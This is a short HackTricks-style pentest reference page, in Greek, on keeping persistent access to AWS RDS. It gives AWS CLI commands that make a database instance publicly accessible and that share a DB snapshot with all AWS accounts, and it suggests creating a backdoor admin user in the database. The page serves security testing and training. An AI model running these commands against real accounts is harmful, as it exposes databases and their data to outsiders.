 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Για περισσότερες πληροφορίες ελέγξτε:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Κάντε την παρουσία δημόσια προσβάσιμη: `rds:ModifyDBInstance`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί **να τροποποιήσει μια υπάρχουσα RDS παρουσία για να επιτρέψει τη δημόσια προσβασιμότητα**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Δημιουργία ενός χρήστη διαχειριστή μέσα στη βάση δεδομένων

Ένας επιτιθέμενος θα μπορούσε απλά **να δημιουργήσει έναν χρήστη μέσα στη βάση δεδομένων** έτσι ώστε ακόμη και αν ο κωδικός πρόσβασης του κύριου χρήστη τροποποιηθεί, **δεν χάνει την πρόσβαση** στη βάση δεδομένων.

### Δημιουργία δημόσιου στιγμιότυπου
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
